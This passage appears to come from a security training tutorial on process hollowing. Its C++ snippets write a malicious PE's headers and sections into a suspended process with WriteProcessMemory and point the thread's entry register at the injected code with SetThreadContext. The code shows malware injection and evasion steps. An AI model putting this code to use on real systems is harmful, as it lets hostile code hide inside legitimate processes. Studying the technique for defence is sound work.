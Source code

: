 Once the memory is allocated, we can write the malicious file to memory. Because we are writing a file, we must first write the PE headers then the PE sections. To write PE headers, we can use `WriteProcessMemory` and the size of headers to determine where to stop.

```cpp
if (!WriteProcessMemory(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	pMaliciousImage, // Local memory where the malicious file resides
	pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers 
	NULL
)) {
	cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
}
```

Now we need to write each section. To find the number of sections, we can use  `NumberOfSections` from the NT headers. We can loop through `e_lfanew` and the size of the current header to write each section.

```cpp
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
	PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

	WriteProcessMemory(
		target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
		(PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section 
		(PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
		pSectionHeader->SizeOfRawData, // Byte size of current section
		NULL
	);
}
```

It is also possible to use relocation tables to write the file to target memory. This will be discussed in more depth in task 6.

At step five, we can use `SetThreadContext` to change `EAX` to point to the entry point.

```cpp
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to the stored context structure
);
```
